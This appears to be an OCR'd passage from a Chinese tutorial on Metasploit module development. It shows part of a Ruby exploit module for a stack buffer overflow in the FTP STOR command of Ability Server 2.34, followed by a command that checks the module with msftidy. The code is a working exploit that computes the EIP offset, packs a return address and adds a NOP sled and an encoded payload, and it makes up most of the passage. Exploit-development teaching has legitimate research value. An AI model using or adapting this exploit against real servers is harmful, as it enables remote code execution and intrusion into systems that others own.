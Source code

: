 ```
      [
        Opt::RPORT(21),
        OptString.new('FTPUSER', [ true, 'Valid FTP username', 'ftp' ]),
        OptString.new('FTPPASS', [ true, 'Valid FTP password for username', 'ftp' ])
      ], self.class)
  end

  def check
    connect
    disconnect
    if banner =~ /Ability Server 2\.34/
      return Exploit::CheckCode::Appears
    else
      if banner =~ /Ability Server/
        return Exploit::CheckCode::Detected
      end
    end
    return Exploit::CheckCode::Safe
  end

  def exploit
    c = connect_login
    return if not c

    myhost = datastore['LHOST'] == '0.0.0.0' ? Rex::Socket.source_address : datastore['LHOST']

    # Take client IP address + FTP user lengths into account for EIP offset
    padd_size = target['Offset'] + (13 - myhost.length) + (3 - datastore['FTPUSER'].length)
    junk = rand_text_alpha(padd_size)

    sploit = junk
    sploit << [target.ret].pack('V')
    sploit << make_nops(32)
    sploit << payload.encoded
    sploit << rand_text_alpha(sploit.length)

    send_cmd(['STOR', sploit], false)
    handler
    disconnect
  end
end 
```

+   检查模块是否已正确编写（msftidy.rb）

```
metasploit-framework/tools/dev/msftidy.rb ability_server_stor.rb 
```

# Meterpreter
